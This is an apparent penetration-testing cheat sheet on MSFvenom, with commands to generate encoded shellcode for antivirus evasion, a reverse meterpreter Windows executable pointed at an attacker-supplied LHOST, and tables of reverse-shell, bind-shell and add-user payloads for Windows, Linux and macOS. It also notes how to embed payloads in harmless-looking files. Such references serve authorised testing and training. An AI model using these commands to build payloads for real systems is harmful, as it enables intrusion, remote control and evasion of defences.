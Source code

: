 # MSFvenom

For generation of payload shellcode and encoder for AV evasion.

A sample of MSFvenom command to generate shellcode of the bind\_tcp payload as below:

`msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f python`

Architecture: `-a`

Platform: `--platform`

Payload to be use: `-p`

Encoding \(for AV evasion, often `x86/shikata_ga_nai` \): `-e`

Embed in non-malicious file by using a template: `-x`

Number of times to encode the payload: `-i`

Output format: `-f`

Help: `-h`

Variable \(default value is `buf`\): `-v`

Avoid bad character \(such as `'\x00'`\): `-b`

**List of Available Platform:**

> Cisco or cisco
>
> OSX or osx
>
> Solaris or solaris
>
> BSD or bsd
>
> OpenBSD or openbsd
>
> hardware
>
> Firefox or firefox
>
> BSDi or bsdi
>
> NetBSD or netbsd
>
> NodeJS or nodejs
>
> FreeBSD or freebsd
>
> Python or python
>
> AIX or aix
>
> JavaScript or javascript
>
> HPUX or hpux
>
> PHP or php
>
> Irix or irix
>
> Unix or unix
>
> Linux or linux
>
> Ruby or ruby
>
> Java or java
>
> Android or android
>
> Netware or netware
>
> Windows or windows
>
> mainframe
>
> multi

**List of Available formats:** `-help-format`

> asp, aspx, aspx-exe, dll, <span style="color:red">**elf**</span>, elf-so, <span style="color:red">**exe**, **exe-only**</span>, exe-service, exe-small,
>
> hta-psh, loop-vbs, <span style="color:red">**macho**</span>, msi, msi-nouac, osx-app, psh, psh-net, psh-reflection,
>
> psh-cmd, vba, vba-exe, vba-psh, vbs, war
>
> Transform formats
>
> bash, c, csharp, dw, dword, hex, java, js\_be, js\_le, num, perl, pl,
>
> powershell, ps1, py, python, raw, rb, ruby, sh,
>
> vbapplication, vbscript

Typical payloads
Sample command:
>msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe

Windows \(`-f exe`\)

| Shell |  | Arguments | 
| :--- | :--- |:--- |
| Reverse Shell | `windows/meterpreter/reverse_tcp` | LHOST, LPORT |
| Bind Shell | `windows/meterpreter/bind_tcp` | RHOST, LPORT|
| Create User | `windows/adduser USER=attacker PASS=attacker@123` | |
| CMD |  | LHOST, LPORT|
| Encoder | `-e shikata_ga_nai` | | 

Linux \(`-f elf`\)

| Shell |  |Arguments |
| :--- | :--- |:--- |
| Reverse Shell | `linux/x86/meterpreter/reverse_tcp` |LHOST, LPORT|
| Bind Shell | `linux/x86/meterpreter/bind_tcp` |RHOST, LPORT|
| Generic Shell | `generic/shell_bind_tcp` |RHOST, LPORT|

Mac OS \(`-f macho`\)

| Shell |  |Arguments|
| :--- | :--- |:--- |
| Reverse Shell | `osx/x86/shell_reverse_tcp` |LHOST, LPORT |
| Bind Shell | `osx/x86/shell_bind_tcp` |RHOST, LPORT |



